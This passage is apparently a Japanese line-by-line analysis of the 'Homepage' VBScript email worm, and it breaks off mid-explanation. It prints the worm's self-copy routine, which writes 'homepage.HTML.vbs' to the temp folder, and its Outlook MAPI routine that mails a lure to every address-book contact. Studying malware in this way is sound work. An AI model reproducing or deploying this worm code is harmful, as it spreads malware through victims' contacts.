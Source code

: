 　WScript.ScriptFullnameとは自分自身のファイルを指します。二つ目の引数は
 1 なので読み取り専用で開く。InF.ReadLineは一行読み込みでvbcrlfは改行です。
つまりこのファイルを読み込んでwhile..loopでScriptBufferへ格納していくとい
う処理です。

11: Set OutF\=FSO.OpenTextFile(Folder&"\homepage.HTML.vbs",2,true)
12: OutF.write ScriptBuffer
13: OutF.close

　11:のFolderは4:で取得したtempフォルダへのパスですね。そこに"homepage.HT
ML.vbs"というファイルを作っています。さらに12:でScriptBufferを書き込んで
ます。つまりは6:から13:まででウイルス自身をtempフォルダ以下にコピーしたこ
とになります。

16: If WS.regread ("HKCU\software\An\mailed") <> "1" then
17: Mailit()
18: End If

　regreadはレジストリの読み込みです。("HKCU\software\An\mailed" !\= 1)なら
ば17:を実行することになります。もちろん最初にこのプログラム（ウイルス）が
実行された場合 1 なわけが無いので(というか"HKCU\software\An\mailed"自体無
いので)Mailit()が実行されることになります。ではMailit()に飛びます。

48: Function Mailit()
49: On Error Resume Next
50: Set Outlook \= CreateObject("Outlook.Application")
51: If Outlook \= "Outlook" Then
52: Set Mapi\=Outlook.GetNameSpace("MAPI")

　ここでOutlookを起動しています。MAPIとはOutlookを外部から制御するAPIでも
しOutlookが存在すればそれを使いますよ。ということでしょう。

53: Set Lists\=Mapi.AddressLists

　住所録を取得します。

54: For Each ListIndex In Lists

　リストの一番初めから終わりまでをForで回す。

55: If ListIndex.AddressEntries.Count <> 0 Then
56: ContactCount \= ListIndex.AddressEntries.Count
57: For Count\= 1 To ContactCount
58: Set Mail \= Outlook.CreateItem(0)
59: Set Contact \= ListIndex.AddressEntries(Count)

　56:は登録されているメールアドレスの数を取得しているのだろうと思います。
58:はメールの作成を行う処理です。最後の59:AddressEntriesでメールアドレス
をゲットします。

60: Mail.To \= Contact.Address
61: Mail.Subject \= "Homepage"
62: Mail.Body \= vbcrlf&"Hi!"&vbcrlf&vbcrlf&"You've got to see this page! It's really cool ;O)"&vbcrlf&vbcrlf

　Mail.Toは送り先のアドレス。Mail.SubjectはSubject。Bodyは本文です。つまり

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
Subject: Homepage
